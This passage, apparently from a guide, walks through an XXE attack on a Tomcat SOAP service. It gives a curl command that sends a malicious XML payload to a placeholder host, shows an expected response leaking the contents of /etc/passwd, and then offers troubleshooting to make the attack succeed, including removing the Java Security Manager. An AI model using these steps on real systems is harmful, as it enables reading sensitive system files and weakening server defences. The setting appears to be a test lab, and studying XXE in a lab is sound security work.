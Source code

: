 Save and exit.

#### **b. Send the Malicious Payload**

```bash
curl -X POST -H "Content-Type: application/xml" --data @malicious_payload.xml http://<EXTERNAL_IP>/SOAPService
```

**Expected Response:**

- The response should contain the contents of the `/etc/passwd` file.

**Example:**

```xml
<response>
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
</response>
```

### **7. If the XXE Attack Still Doesn't Work**

If you're still receiving `<response>Success</response>` or not getting the expected content, consider the following:

#### **a. Check for Security Managers or Policies**

Tomcat or the Java runtime might have security policies that prevent file access.

- **Check Tomcat Security Manager:**

  - By default, the Tomcat Security Manager is not enabled, but verify this.

  - **Disable Security Manager (Not Recommended for Production):**

    In the Tomcat service file `/etc/systemd/system/tomcat9.service`, check for `-Djava.security.manager` and remove it if present.

#### **b. Adjust File Permissions**

- Ensure that the Tomcat user has read access to `/etc/passwd`.

- **Note:** `/etc/passwd` is usually world-readable, but if permissions have been altered, this could prevent access.

#### **c. Review Exception Logs**

Check the Tomcat logs for any exceptions that may indicate why the file cannot be read.

```bash
sudo tail -f /var/log/tomcat9/catalina.out
```

- Look for stack traces or error messages related to file access or XML parsing.

### **8. Alternative Testing**
